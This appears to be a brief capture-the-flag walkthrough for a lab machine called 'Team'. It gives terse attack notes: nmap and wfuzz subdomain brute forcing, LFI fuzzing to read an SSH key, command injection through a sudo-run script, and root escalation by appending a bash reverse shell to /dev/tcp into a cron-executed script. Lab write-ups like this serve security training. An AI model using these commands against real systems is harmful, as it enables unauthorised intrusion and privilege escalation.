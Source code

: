 # Team

### Foot Printing
- EXPORT_IP : 10.10.47.27


### Scanning
- sudo nmap -sC -sV -oA nmap/initial EXPORT_IP
  - nmap/initial.*

### Enumeration
- EXPORT_IP/robots.txt
- Sub-Domain Setup
 - EXPORT_IP team.thm >> /etc/hosts
 - Sub-Domain BruteForcing
   - `wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`
 - EXPORT_IP dev.team.thm >> /etc/hosts
-`sshd_config` 
  - `http://dev.team.thm/script.php?page=FUZZ`
  - `FUZZ` 부분에 SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt 로 BruteForcing

### Gaining Access
- ssh -i dale_sshd_config dale@team.thm
- sudo -u gyles /home/gyles/admin_checks
  - Enter date -> `/bin/bash`

### Escalation (Root)
- `bash -c "bash -i >& /dev/tcp/MY_IP/PORT 0>&1"`  >> /usr/local/bin/main_backup.sh 
- cronjab && root access
